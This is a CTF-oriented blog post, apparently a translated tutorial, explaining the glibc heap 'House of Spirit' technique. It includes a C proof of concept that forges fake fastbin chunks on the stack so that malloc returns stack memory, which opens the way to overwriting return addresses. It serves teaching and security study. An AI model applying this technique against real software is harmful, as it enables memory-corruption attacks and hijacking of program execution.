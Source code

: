 ```yaml
---
title: Heap Exploitation系列翻译-13 House of Spirit
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


# House of Spirit

The House of Spirit is a little different from other attacks in the sense that it involves an attacker overwriting an existing pointer before it is 'freed'. The attacker creates a 'fake chunk', which can reside anywhere in the memory (heap, stack, etc.) and overwrites the pointer to point to it. The chunk has to be crafted in such a manner so as to pass all the security tests. This is not difficult and only involves setting the `size` and next chunk's `size`. When the fake chunk is freed, it is inserted in an appropriate binlist (preferably a fastbin). A future malloc call for this size will return the attacker's fake chunk. The end result is similar to 'forging chunks attack' described earlier.

Consider this sample code (download the complete version [here](../assets/files/house_of_spirit.c)):

```c
struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];                   // chunk falls in fastbin size range
};

struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
// fake_chunks[0] at 0x7ffe220c5ca0
// fake_chunks[1] at 0x7ffe220c5ce0

void *ptr, *victim;

ptr = malloc(0x30);                 // First malloc

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);  // 0x40

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);  // 0x40

// Attacker overwrites a pointer that is about to be 'freed'
ptr = (void *)&fake_chunks[0].fd;

// fake_chunks[0] gets inserted into fastbin
free(ptr);

victim = malloc(0x30);              // 0x7ffe220c5cb0 address returned from malloc
```

Notice that, as expected, the returned pointer is 0x10 or 16 bytes ahead of `fake_chunks[0]`. This is the address where the `fd` pointer is stored. This attack gives a surface for more attacks. `victim` points to memory on the stack instead of heap segment. By modifying the return addresses on the stack, the attacker can control the execution of the program.
